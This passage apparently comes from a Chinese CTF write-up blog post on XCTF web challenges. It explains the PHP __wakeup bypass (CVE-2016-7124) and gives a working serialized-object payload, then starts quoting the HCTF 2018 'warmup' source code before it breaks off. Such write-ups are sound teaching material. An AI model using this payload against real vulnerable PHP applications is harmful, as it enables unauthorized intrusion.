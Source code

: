 ```yaml
---
title: XCTF-Web 进阶 0x01
urlname: XCTF-WEB-M-0x01
tags: XCTF
abbrlink: 34261
date: 2020-10-02 19:00:00
---
```


## unserialize3

> CVE-2016-7124

```php
<?php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
}
?code=
```

`__wakeup()`特性：`unserialize()`时会自动调用。

__wakeup()可以被绕过，漏洞版本为PHP5 < 5.6.25或PHP7 < 7.0.10。

漏洞描述：序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行。

根据提示，可知code参数是可攻击层面入口。

根据题目构造Payload：

```php
$code = new xctf();
echo serialize($code);

>>> O:4:"xctf":1:{s:4:"flag";s:3:"111";}  //输出的原始结果
>>> O:4:"xctf":3:{s:4:"flag";s:3:"111";}  //修改后的结果
```

最终Payload： ?code=O:4:"xctf":3:{s:4:"flag";s:3:"111";}



## warmup FROM HCTF 2018

HCTF2018 的签到题。

审查元素得到source.php，进入之后得到源码

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }
```